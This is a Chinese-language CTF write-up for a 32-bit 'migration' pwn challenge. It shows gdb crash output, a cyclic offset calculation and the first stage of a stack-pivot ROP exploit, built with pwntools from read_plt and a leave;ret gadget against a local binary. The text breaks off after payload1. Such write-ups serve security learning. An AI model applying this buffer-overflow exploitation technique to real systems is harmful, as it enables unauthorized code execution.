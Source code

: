 ```powershell
0024| 0xffffd298 --> 0xf7fac000 --> 0x1d9d6c 
0028| 0xffffd29c --> 0xffffffff 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x6161616c in ?? ()
gdb-peda$ qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Undefined command: "qaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab".  Try "help".
gdb-peda$ 
[1]+  已停止               gdb migration
root@kali:~/桌面/CTF# cyclic -l 0x6161616c
44
```

手动测出来的栈偏移为44（0x2C），这说明变量buf距离main函数的返回地址为0x2C，那么距离EBP（栈底）的距离为（0x2C-4=0x28=40），看来这次IDA挺准的嘛。

从伪代码中的read(0, &buf, 0x40u);，read函数可以读取0x40的内容放到buf（0x28）中，也就是说我们只能控制0x40-0x28=0x18（24）的内容，再加之上我们的payload需要泄露libc文件得到system的地址，这些空间未免也太少了吧，所以我们只能进行栈迁移。

# payload1
我们先来看一下payload1：

> payload1='a'*(0x28)+p32(buf)+p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf)+p32(0x100)
>

使用payload填充栈的情况如下：（**<font style="color:#F5222D;">注：以下图片均为指令执行后的结果</font>**）

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597664624666-032a5557-5dbf-4ce7-a8b4-d1734dc55b22.png)

注意，我们read函数覆盖的是main函数的返回地址，因此程序会先执行main函数结尾的leave和ret指令

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597664928902-93b799df-14fd-4e08-bd7f-ee8851a2e9df.png)



![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597665034362-97e73b1a-0195-465c-ab68-03a1c19e1c23.png)

这个时候程序会开始执行read函数，因为eip指向了read_plt，如下图所示：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597665305032-4e88b4e7-3269-4caf-b388-cf3364b74f08.png)

read函数执行完了，那就执行我们的gadgets：leave_ret

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597665418026-13454bfe-e413-442f-a7ec-aa2f9633fe34.png)![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597665418812-5dc715ee-9409-482c-af7d-4ac5f93c5846.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597665949200-484d7610-aa38-41fe-bfe4-a9762a5bd3b4.png)

第一部分payload完整的代码如下：

```python
#coding:utf8
from pwn import *

p=process('./migration')
elf=ELF('./migration')
libc = ELF('/usr/lib32/libc.so.6')#本地libc文件
context.log_level="debug"  

buf=elf.bss()+0x500
buf1=elf.bss()+0x400
read_plt=elf.plt['read']
leave_ret=0x08048418
# 0x08048418 : leave ; ret
payload1='a'*(0x28)+p32(buf)+p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf)+p32(0x100)
```